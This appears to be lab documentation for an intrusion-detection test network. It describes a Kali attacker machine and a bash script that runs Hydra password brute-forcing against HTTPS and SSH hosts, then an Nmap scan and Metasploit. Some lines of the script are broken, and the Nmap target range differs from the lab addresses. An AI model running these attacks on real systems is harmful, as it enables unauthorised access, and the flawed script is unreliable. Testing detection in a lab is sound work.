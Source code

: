 Attacker Machines
====
We chose to have two machines acting as attackers on our network, one external and a internal compromised Windows host.

Kali Outside Attacker Machine
----
We chose to use Kali Linux as our external attacker machine, Kali was chosen due to its existing robust catalouge of hacking tools.
We chose to use the following to simulate an attack: 

- NMAP (Scanning Ports)
- HYDRA (Brute Force Password)
- WMAP / Metasploit (Scanning DVWA)

I wrote a custom script to automate most of this process.
    
    .. code-block:: bash

        #/bin/bash
        root -i
        echo "======================================"
        cowsay Moooo!
        echo "Proj: IDS"
        echo "Purpose: Test IDS Rules and Logging with a variety of attacks"
        echo "#################################"
        hydra -L name -P a 10.180.110.253 https-head /admin/dm-launcher.msi -v -I
        hydra -L name -P a 10.180.110.250 ssh -t 4
        echo "DONE: Hydra on Admin ASDM Download to find privlaged users"
        echo "#############################"
        ssh user1@10.180.110.250 'exit'
        echo "DONE: Sample remote ssh via attempted brute force"
        echo "###########################"
        #cowsay Hackermode
        sudo nmap -v  110.180.110.0/24
        msfconsole 'load'
        echo "DONE: WEB APP EXPLOITS"
        #cowsay MOO!
        echo "==================================="
        eof

This script launches a hydra attack on the specified IP addresses, then runs a nmap scan and then opens the metasploit console


   

